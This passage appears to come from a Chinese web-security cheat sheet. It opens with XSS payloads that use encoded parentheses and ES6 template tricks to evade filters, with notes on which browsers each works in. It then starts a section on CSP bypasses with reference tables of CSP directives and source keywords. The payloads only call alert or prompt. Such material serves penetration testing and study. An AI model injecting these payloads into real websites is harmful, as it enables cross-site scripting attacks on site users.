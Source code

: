```html
<svg><script>alert&#40/1/&#41</script>  // 通杀所有浏览器
<svg><script>prompt&#x28;1)<b>  // Firefox
<svg><script>prompt&#40;1)</script>  // Chrome
    
// ES6
<script>eval.call`${'prompt\x281)'}`</script>
<script>prompt.call`${1}`</script>
```

### 杂项

#### CSP 绕过总结

##### CSP 是什么？

> Content Security Policy 用来防御 XSS 攻击的技术。它是一种由开发者定义的安全性政策申明，通过 CSP 指定可信的内容来源，让 WEB 处于一个安全的运行环境中。

例如：

```
Content-Security-Policy: default-src 'self'; script-src 'self';
```

**指令说明**

| 指令        | 说明                                                |
| ----------- | --------------------------------------------------- |
| default-src | 定义资源默认加载策略                                |
| connect-src | 定义 Ajax、WebSocket 等加载策略                     |
| font-src    | 定义 Font 加载策略                                  |
| frame-src   | 定义 Frame 加载策略                                 |
| img-src     | 定义图片加载策略                                    |
| media-src   | 定义 <audio>、<video> 等引用资源加载策略            |
| object-src  | 定义 <applet>、<embed>、<object> 等引用资源加载策略 |
| script-src  | 定义 JS 加载策略                                    |
| style-src   | 定义 CSS 加载策略                                   |
| sandbox     | 值为 allow-forms，对资源启用 sandbox                |
| report-uri  | 值为 /report-uri，提交日志                          |

**关键词**

| 属性值                              | 示例                                        | 说明                                                         |
| ----------------------------------- | ------------------------------------------- | ------------------------------------------------------------ |
| *                                   | img-src *                                   | 允许从任意url加载，除了data:blob:filesystem:schemes          |
| 'none'                              | object-src 'none'                           | 禁止从任何url加载资源                                        |
| 'self'                              | img-src 'self'                              | 只可以加载同源资源                                           |
| data:                               | img-src 'self' data:                        | 可以通过data协议加载资源                                     |
| domain.example.com                  | ing-src domain.example.com                  | 只可以从特定的域加载资源                                     |
| *.example.com                       | img-src *.example.com                       | 可以从任意example.com的子域处加载资源                        |
| [https://cdn.com](https://cdn.com/) | img-src [https://cdn.com](https://cdn.com/) | 只能从给定的域用https加载资源                                |
| https:                              | img-src https:                              | 只能从任意域用https加载资源                                  |
| 'unsafe-inline'                     | script-src 'unsafe-inline'                  | 允许内部资源执行代码例如style attribute,onclick或者是sicript标签 |